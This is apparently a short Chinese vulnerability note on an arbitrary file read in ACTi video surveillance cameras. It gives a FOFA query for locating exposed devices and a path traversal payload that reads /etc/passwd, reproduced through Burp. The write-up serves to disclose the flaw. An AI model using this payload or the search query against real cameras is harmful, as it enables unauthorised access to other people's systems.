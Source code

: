 # ACTI 视频监控 images 任意文件读取漏洞

## 漏洞描述

ACTI 视频监控 存在任意文件读取漏洞

## 漏洞影响

```
ACTI摄像头
```

## FOFA

```
app="ACTi-视频监控"
```

## 漏洞复现

登录页面如下

![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202140926386.png)

使用Burp抓包

```plain
/images/../../../../../../../../etc/passwd
```

![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202140926873.png)

